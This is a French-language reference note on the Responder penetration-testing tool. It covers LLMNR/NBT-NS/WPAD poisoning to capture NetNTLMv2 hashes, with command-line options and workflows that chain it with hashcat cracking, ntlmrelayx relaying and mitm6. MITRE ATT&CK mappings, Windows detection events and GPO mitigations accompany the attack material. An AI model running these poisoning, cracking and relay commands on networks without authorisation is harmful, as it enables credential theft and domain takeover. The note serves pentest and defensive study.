

# 👑 Responder — Active Directory & Windows

> [!info] **En 1 phrase**
> Responder empoisonne les protocoles de résolution de noms **LLMNR, NBT-NS et mDNS** pour **capturer les hashes NTLMv2** des clients Windows du réseau local, ensuite crackables (hashcat mode **5600**).

---

## 🧾 Overview

| Champ | Détail |
|---|---|
| **Nom** | Responder |
| **Type** | Empoisonnement LLMNR/NBT-NS/mDNS + capture de hashes NTLM |
| **Licence** | GPL-3.0 |
| **Langage** | Python |
| **Développeur** | Laurent Gaffie (lgandx) |
| **Dépositaires** | `github.com/lgandx/Responder` |
| **Installation** | `apt install responder` (Kali/Debian) ou clone GitHub |
| **Pré-requis** | Interface réseau locale, privilèges root (ports 53/445/80…), Python 3 |
| **Plateformes** | Linux (attaquant), Windows (cibles du réseau local) |
| **Objectif** | Répondre à la place des serveurs légitimes pour capturer les hashes NetNTLMv2, relayables ou crackables |

---

## 🎯 Concept

Quand Windows ne résout pas un nom (typo, partage manquant), il envoie des requêtes **LLMNR / NBT-NS / mDNS**. Responder **répond à la place du serveur légitime** : le client envoie alors son **hash NTLMv2** (challenge/réponse) à l'attaquant. En bonus, le **WPAD** (proxy auto-détecté) force chaque navigateur à s'authentifier. C'est l'attaque de base de tout pentest sur réseau local. Dans un engagement, Responder se lance dès la mise en place de l'accès réseau : en quelques minutes, des comptes utilisateurs, de service ou admin déposent leurs hashes NetNTLMv2, qu'on cracke en local (hashcat mode 5600) ou qu'on relaye (ntlmrelayx) quand SMB signing est désactivé.



---

## 🧠 Concepts fondamentaux

| Concept | Rôle dans Responder |
|---|---|
| **LLMNR** | Résolution de noms multicast (5355/UDP) : répondu en premier par Responder |
| **NBT-NS** | NetBIOS Name Service (137/UDP) : fallback IPv4 |
| **mDNS** | Multicast DNS (5353/UDP) : utilisé pour la résolution sur le réseau local |
| **NTLMv2** | Challenge-réponse : le hash capturé est un NetNTLMv2 (non utilisable en PtH) |
| **WPAD** | Web Proxy Auto-Discovery : force l'authentification NTLM du navigateur |
| **Serveurs malveillants** | HTTP, SMB, LDAP, MSSQL, FTP, SMTP, IMAP, POP3… (15+ protocoles) |
| **Downgrade LM** | Forcer l'usage de LM (ancien, faible) pour faciliter le cracking |
| **hashcat mode 5600** | Crack des hashes NetNTLMv2 |
| **ntlmrelayx** | Relais du handshake vers une cible (quand le cracking échoue et signing désactivé) |

---

## 🛠️ Installation

### Installation

```bash
# Kali / Debian / Ubuntu
sudo apt install responder

# Depuis les sources
git clone https://github.com/lgandx/Responder.git && cd Responder

# Vérification
responder -h
```

### Configuration `responder.conf`

```bash
# Fichier principal : responder.conf (dans le dossier source)
# On peut y activer/désactiver les serveurs (SMB, HTTP, LDAP, WPAD...)
# Exemple : désactiver SMB si un service légitime utilise le port 445
# [Responder Core]
# SMB = Off
# HTTP = On
```

> [!note] À vérifier
> Les chemins de config et le nom de l'exécutable diffèrent selon la version (`responder` vs `Responder.py`) et le système : vérifier avec `responder -h` sur l'installation.

---

## ⚙️ Configuration

Responder se configure via la ligne de commande (interface, modes) et via `responder.conf` (activation des serveurs, ports, options). La config principale à surveiller : désactiver les serveurs qui entrent en conflit avec d'autres outils d'écoute.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-I <interface>` | Interface réseau à écouter | `eth0`, `wlan0` | Définit le segment attaqué | `-I eth0` |
| `-A` | Mode analyse | flag | Logge sans répondre (diagnostic, non-intrusif) | `-I eth0 -A` |
| `-w` | Serveur WPAD actif | flag | Force l'authentification des navigateurs | `-w` |
| `-F` | Force NTLM sur WPAD | flag | Authentification forcée même sans proxy requis | `-wF` |
| `--lm` | Downgrade LM | flag | Hashes en format plus faible (Windows anciens) | `--lm` |
| `-f` | Fingerprint OS client | flag | Identifie la version du client | `-f` |
| `-v` | Verbeux | flag | Plus de détails par requête | `-v` |
| `-i <IP>` | IP à annoncer (serveur) | IP de l'attaquant | IP de réponse (ex. mode VPN) | `-i 10.10.10.5` |
| `-e <IP>` | IP à exclure | IP | Ne répond pas pour cette IP (ex. le vrai serveur) | `-e 192.168.1.1` |
| `-b` | Requêtes Broadcast (NBT-NS) | flag | Répond aussi aux requêtes broadcast | `-b` |
| `-r <opcode>` | Réponses WINS | flag | Manipulation avancée WINS | rare |
| `responder.conf` | Activation des serveurs | `On/Off` par protocole | Évite les conflits de ports | `SMB = Off` |

---

## 🏗️ Architecture interne

- **Multi-écouteurs** : Responder ouvre des sockets sur de nombreux ports (53 DNS, 137 NBT-NS, 445 SMB, 80 HTTP, 389 LDAP, 21 FTP, 25 SMTP, …) via Python.
- **Moteur de résolution** : il implémente LLMNR, NBT-NS et mDNS et répond de façon prioritaire pour tout nom non résolu, en usurpant l'identité demandée.
- **Challenge NTLM** : chaque serveur (SMB, HTTP, LDAP…) effectue le challenge/réponse NetNTLM et capture le hash NetNTLMv1/v2 (selon le downgrade).
- **Serveur WPAD** : répond `wpad.<domaine>` avec un fichier `wpad.dat` et force l'authentification via les entêtes `Proxy-Authorization` NTLM.
- **Logging** : écrit dans `logs/` un fichier par session (date, interface) avec les hashes capturés au format hashcat/john.
- **Fingerprint** : l'option `-f` déduit le système d'exploitation du client depuis les signatures LLMNR/NBT-NS.

---

## ⌨️ Commandes

### Commandes principales

```bash
# Empoisonnement + serveurs actifs (SMB, HTTP, LDAP...)
sudo responder -I eth0

# Mode analyse : écoute sans répondre (ne perturbe pas le réseau)
sudo responder -I eth0 -A

# WPAD + downgrade LM + verbeux
sudo responder -I eth0 -wF --lm -v
```

| Option | Effet |
|---|---|
| `-I <interface>` | interface à écouter (ex: `eth0`, `wlan0`) |
| `-A` | **mode analyse** : logge sans empoisonner (diagnostic) |
| `--lm` | force le **downgrade LM** (Windows < 2003) |
| `-w` | active le serveur **WPAD** (proxy frauduleux) |
| `-F` | force l'authentification NTLM sur WPAD |
| `-f` | fingerprint de l'OS du client |
| `-v` | affichage verbeux |

| Protocole | Effet |
|---|---|
| `[+] HTTP` | serveur web : capture basic / NTLM |
| `[+] SMB` | serveur SMB : capture NTLMv2 |
| `[+] WPAD` | proxy : le navigateur s'authentifie → hash |
| `[+] LDAP` | capture NTLM via requêtes LDAP |

### Commandes avancées

```bash
# Analyse passive puis actif (bonne pratique)
sudo responder -I eth0 -A
sudo responder -I eth0

# Empoisonnement avec fingerprint OS + WPAD forcé
sudo responder -I eth0 -wf -v

# Relais des hashes via ntlmrelayx (SMB signing désactivé)
sudo ntlmrelayx.py -t smb://192.168.1.10 -smb2support
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-I <interface>` | Interface d'écoute | `-I eth0` | Basic |
| `-A` | Mode analyse (passif) | `-I eth0 -A` | Basic |
| `-w` | Serveur WPAD actif | `-w` | Basic |
| `-v` | Verbeux | `-v` | Basic |
| `-f` | Fingerprint OS | `-f` | Intermediate |
| `-F` | Force NTLM sur WPAD | `-wF` | Intermediate |
| `--lm` | Downgrade LM | `--lm` | Intermediate |
| `-i <IP>` | IP annoncée | `-i 10.10.10.5` | Advanced |
| `-e <IP>` | IP exclue (vrai serveur) | `-e 192.168.1.1` | Advanced |
| `-b` | Réponses broadcast | `-b` | Advanced |
| `responder.conf` | On/Off des serveurs | `SMB = Off` | Expert |

> [!tip] Options les plus utiles au quotidien
> `-I` (interface), `-A` (diagnostic), `-wF` (WPAD forcé), `-v` (détail).

## 🧪 Exemples pratiques

### Beginner

```bash
# Lancer l'empoisonnement sur le réseau local
sudo responder -I eth0
# Attendre les requêtes LLMNR/NBT-NS et récupérer le hash SMB-NTLMv2 affiché
```

### Intermediate

```bash
# WPAD actif + verbosité pour voir les authentifications de navigateurs
sudo responder -I eth0 -w -v

# Mode analyse d'abord : voir ce qui se passe sans empoisonner
sudo responder -I eth0 -A
```

### Advanced

```bash
# Empoisonnement complet : WPAD forcé + fingerprint OS + LM
sudo responder -I eth0 -wF --lm -f -v

# Cracking immédiat du hash capturé
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Expert

```bash
# Relais des hashes (SMB signing désactivé) en parallèle de Responder
sudo ntlmrelayx.py -t smb://192.168.1.10 -smb2support -wh wpad.corp.local

# Combinaison dual-stack avec mitm6 (IPv6)
sudo mitm6 -d corp.local
sudo responder -I eth0
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access -6
```

---

## 🧪 Workflow complet (scénario pas à pas)

Scénario : poste dans le réseau local d'un client, aucun accès pour l'instant.

1. **Lancer Responder** sur l'interface du réseau local.
   ```bash
   sudo responder -I eth0
   ```
2. **Attendre** qu'un utilisateur se trompe (`\\server` au lieu de `\\serveur`) ou qu'un service résolve un nom.
3. **Récupérer le hash** affiché.
   ```
   [+] SMB-NTLMv2-SSP Hash : user::CORP:112233...
   ```
4. **Cracker** le hash NetNTLMv2.
   ```bash
   hashcat -m 5600 hash.txt rockyou.txt
   ```
5. **Relayer** si le hash ne se cracke pas.
   ```bash
   ntlmrelayx.py -t smb://192.168.1.10   # SMB signing désactivé
   ```

---

## 🎬 Scénarios avancés

### Scénario 1 : Relais NTLM vers un serveur web (ntlmrelayx)

Quand le hash ne se cracke pas, relayer la capture vers un service cible qui accepte l'authentification NTLM.

```bash
ntlmrelayx.py -t http://192.168.1.50/auth --http-port 80
# Responder capte le hash, ntlmrelayx le rejoue vers la cible web
```

### Scénario 2 : Combinaison Responder + mitm6 pour DHCPv6

Sur des domaines sans IPv6 actif, forcer l'authentification via une fausse réponse DHCPv6 (mitm6) et capturer les hashes même sans erreur de typo.

```bash
sudo mitm6 -d corp.local
sudo responder -I eth0
# Les clients se voient attribuer un DNS IPv6 pointant vers l'attaquant
# puis s'authentifient (WPAD) → hashes NTLMv2 capturés
```

### Scénario 3 : Capture provoquée via partage SMB (UNC path injection)

Forcer une authentification vers l'attaquant en faisant charger un chemin UNC (ex. un document ou une URL du type `file://\\attaquant\share\fichier`).

```bash
sudo responder -I eth0 -A
# Observer les requêtes réseau passives, puis :
sudo responder -I eth0
# Dès qu'un client tente d'accéder au partage \attaquant, son hash SMB-NTLMv2 est capturé
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Première porte d'entrée sur le réseau local (capture d'un compte) |
| Credential Access | Capture de hashes NetNTLMv2 (crackables ou relayables) |
| Reconnaissance | Mode `-A` : comprendre le trafic LLMNR/NBT-NS sans perturber |
| Privilège Escalation | Les comptes de service/admin capturés ouvrent souvent le domaine |
| Lateral Movement | Relais du handshake vers SMB/LDAP (via ntlmrelayx) |
| Blue team / lab | Tester la présence de LLMNR/NBT-NS et le signing |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Man-in-the-Middle : LLMNR/NBT-NS poisoning | T1557.001 | Empoisonnement de la résolution de noms | Requêtes LLMNR/NBT-NS répondues par un hôte inattendu | Désactiver LLMNR/NBT-NS par GPO |
| Credential Access | Man-in-the-Middle : WPAD | T1557.003 | Proxy frauduleux WPAD | Requêtes WPAD anormales | Désactiver WPAD, fournir le PAC par GPO/DHCP |
| Credential Access | Brute Force : Password Cracking | T1110.002 | Cracking des hashes NetNTLMv2 | Cracking hors ligne (non détectable directement) | Mots de passe robustes, MFA |
| Credential Access | Exploitation du relais NTLM | T1557.001 (variante) | Relais vers SMB/LDAP | Doublons de logons, 4624 Type 3 | SMB signing, LDAP signing + channel binding |
| Discovery | Remote System Discovery | T1018 | Énumération des noms capturés | Trafic de résolution anormal | Restreindre les protocoles de résolution |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Responder relève de **T1557** (LLMNR/NBT-NS/WPAD) ; le cracking et le relais sont les étapes suivantes (T1110, T1557 relay).

## 🛡️ Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Réponses LLMNR/NBT-NS provenant d'hôtes non légitimes, requêtes WPAD inhabituelles |
| **Journal Windows** | Événements 4624/4625 (logons Type 3 vers une source inattendue), requêtes DNS/LLMNR |
| **Surveillance** | SIEM sur la résolution de noms, détection de réponses multiples pour un même nom |
| **Mesures de prévention** | Désactiver LLMNR et NBT-NS par GPO (DNS client + NetBIOS), SMB signing obligatoire |
| **Réduction de la surface** | Restreindre NTLM (`Network security: Restrict NTLM...`), désactiver WPAD, utiliser des comptes avec MFA |
| **Outils de détection** | Détection des réponses LLMNR multiples (outils type `Responder`-detection), honeypots de noms |

> [!tip] Bien comprendre ce que Responder exploite
> Responder exploite la **résolution de noms par défaut** des postes Windows. Les mitigations sont des **politiques GPO** (désactiver LLMNR/NBT-NS) et des **signatures de protocole** (SMB/LDAP).

---

## 🤖 Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Lancement au début d'engagement | Script | `sudo responder -I eth0 -wF &` |
| Capture longue | tmux/screen | `tmux new -s responder 'sudo responder -I eth0'` |
| Cracking automatique | Cron/boucle | `hashcat -m 5600 hashes.txt rockyou.txt --show` |
| Relais automatisé | ntlmrelayx | `ntlmrelayx.py -tf targets.txt -smb2support` |
| Analyse des logs | grep/awk | `grep 'NTLMv2' logs/*` pour extraire les sessions |

---

## 📤 Output et parsing

- **Console** : chaque capture affiche `[+] SMB-NTLMv2-SSP Hash : <user>::<DOM>:<hash>`.
- **Fichiers** : Responder écrit dans `logs/` (un fichier par session avec date et interface) les hashes au format hashcat (`NETNTLMv2`) et john.
- **Parsing** : les fichiers de logs sont lisibles avec grep/awk ; les hashes vont directement dans `hashcat -m 5600`.

```bash
# Exemple de parsing
grep -r 'NTLMv2' logs/ | awk '{print $NF}' > hashes.txt
hashcat -m 5600 hashes.txt rockyou.txt
```

---

## 🔗 Intégrations

| Outil | Usage dans l'écosystème Responder |
|---|---|
| [[Outil - Impacket]] | `ntlmrelayx.py` relaie les hashes capturés vers SMB/LDAP |
| [[Outil - hashcat]] | Crack des hashes NetNTLMv2 (mode 5600) |
| [[Outil - mitm6]] | Couvre le vecteur IPv6 (complément dual-stack) |
| [[Outil - CrackMapExec]] | Valider les creds crackés sur le domaine |
| [[Outil - BloodHound]] | Cartographier le domaine avec le compte compromis |
| [[Outil - Evil-WinRM]] | Shell confortable avec les creds obtenus |
| [[Outil - Nmap]] | Identifier les postes et les services avant l'empoisonnement |

---

## 🔄 Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **mitm6** | Empoisonnement IPv6/DHCPv6 (WPAD) | Réseaux sans LLMNR/NBT-NS, dual-stack |
| **Responder MultiRelay** | Module avancé de relais (responder-tools) | Usages spécifiques |
| **Bettercap** | Suite complète MITM (ARP, DNS, HTTP…) | Pentest réseau polyvalent |
| **Ettercap** | MITM classique (ARP spoofing) | Réseaux non-switchés / démo |
| **ntlmrelayx seul** | Relais sans empoisonnement | Quand un autre vecteur fournit le trafic NTLM |

---

## ⚡ Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Trafic réseau | Volume de requêtes à répondre | Choisir le segment le plus actif |
| Nombre de serveurs | Multiples sockets ouverts | Désactiver les serveurs inutiles dans `responder.conf` |
| Conflits de ports | Autres outils en écoute | Vérifier avec `ss -tlnp`, ajuster la config |
| Cracking | Temps de crack hors ligne | Filtrer par utilisateur prioritaire, bonnes wordlists |

---

## 🛠️ Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `Failed to start: address already in use` | Port occupé (SMB/HTTP) | Désactiver le serveur en conflit dans `responder.conf` | `ss -tlnp` |
| Aucun hash capturé | LLMNR/NBT-NS désactivés sur le réseau | Utiliser `-A` pour vérifier le trafic, ou passer à mitm6 | Logs d'analyse `-A` |
| Hash non crackable | NetNTLMv2 robuste | Relayer avec ntlmrelayx (si signing désactivé) | Test avec une cible sans signing |
| Conflit avec un serveur légitime | Réponse lente / double réponse | Exclure l'IP du vrai serveur (`-e`) | Logs de trafic |
| WPAD inactif | WPAD désactivé par GPO | `-wF` force, sinon vecteur UNC | Requêtes WPAD observées |

---

## 🔐 Sécurité de l'outil

- **Portée** : l'empoisonnement affecte **tout le segment local** → à n'utiliser que sur des réseaux autorisés.
- **Données capturées** : les hashes NetNTLMv2 sont sensibles → protéger les fichiers de logs, les effacer après analyse.
- **Écoute** : de nombreux ports ouverts (53, 445, 80…) → ne pas lancer sur une interface publique, surveiller.
- **Non-intrusif d'abord** : le mode `-A` permet un diagnostic sans perturber le réseau.
- **Nettoyage** : arrêter proprement et supprimer les logs de sessions après l'engagement.

---

## ⚠️ Limitations

- **Nécessite du trafic** : sans erreur de résolution ou requête WPAD, rien n'est capturé (patience / provocation).
- **NetNTLMv2 non relançable en PtH** : le hash capturé ne s'utilise pas directement en Pass-the-Hash (seul le relais ou le crack fonctionne).
- **Signing** : SMB/LDAP signing obligatoire neutralise le relais.
- **Protections GPO** : LLMNR/NBT-NS désactivés par GPO réduisent fortement l'efficacité.
- **Dépend de Python/ports** : les conflits de ports et versions Python peuvent casser des serveurs.

---

## 📋 Cheatsheet

```text
# Lancement
sudo responder -I eth0                    # empoisonnement complet
sudo responder -I eth0 -A                 # analyse passive
sudo responder -I eth0 -wF --lm -v        # WPAD forcé + LM + verbeux
sudo responder -I eth0 -f                 # fingerprint OS

# Cracking
hashcat -m 5600 hashes.txt rockyou.txt

# Relais
sudo ntlmrelayx.py -t smb://192.168.1.10 -smb2support
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access

# Complément IPv6
sudo mitm6 -d corp.local
```

---

## ⚡ Quick reference

| Situation | Action immédiate |
|---|---|
| Début d'engagement réseau local | `sudo responder -I eth0 -wF` |
| Diagnostiquer sans perturber | `sudo responder -I eth0 -A` |
| Hash capturé | `hashcat -m 5600 hashes.txt rockyou.txt` |
| Hash non crackable | `ntlmrelayx.py -t smb://<cible> -smb2support` |
| Réseau sans LLMNR/NBT-NS | Passer à [[Outil - mitm6]] |
| Conflit de port | Désactiver le serveur dans `responder.conf` |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Requêtes LLMNR/NBT-NS encore actives dans le réseau | GPO : *Network > DNS Client > Turn off multicast name resolution* + désactiver NetBIOS over TCP/IP |
| WPAD répondu par un serveur inattendu | Désactiver le WPAD par GPO, fournir le PAC uniquement via DHCP/GPO |
| Relais NTLM possible vers SMB | SMB signing **obligatoire** : bloque le relais vers SMB |
| Authentification NTLM vers des postes inconnus | `Network security: Restrict NTLM outbound/inbound traffic` |
| Logons Type 3 vers le poste attaquant | Événements 4624/4625 : logons **Type 3** vers source inhabituelle |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Systématique en début d'engagement** : lance Responder dès la mise en place. Les premiers hashes arrivent en quelques minutes, souvent depuis des comptes **de service ou admin**. Lance d'abord `-A` quelques minutes pour diagnostiquer le trafic LLMNR/NBT-NS présent sans perturber le réseau, puis bascule en mode actif.

> [!warning] ⚠️ **Piège** : le hash capturé est un **NetNTLMv2**, pas un hash NTLM : il ne s'utilise **pas** en Pass-the-Hash. Soit on le cracke (mode 5600), soit on le relaye.

> [!warning] ⚠️ **Piège** : ne lance pas Responder en parallèle d'un autre service SMB/HTTP sur la même interface : **conflit de ports**. Vérifie `responder.conf` et les services déjà en écoute.

> [!warning] ⚠️ **Piège** : si LLMNR/NBT-NS sont désactivés par GPO (parc durci), Responder seul ne capturera rien : passe sur le couple mitm6 + ntlmrelayx (IPv6/WPAD).

---

## 📚 References

- GitHub officiel : https://github.com/lgandx/Responder
- The Hacker Recipes — LLMNR/NBT-NS poisoning : https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/responder-llmnr
- Microsoft — Désactiver LLMNR : https://learn.microsoft.com/en-us/windows/security/security-policy-settings/

➡️ **Liens :** [[Outil - Responder]] | [[Outil - mitm6]] | [[Outil - Impacket]] | [[Outil - hashcat]] | [[Outil - CrackMapExec]] | [[Outil - BloodHound]] | [[Outil - Evil-WinRM]] | [[Outil - Nmap]]

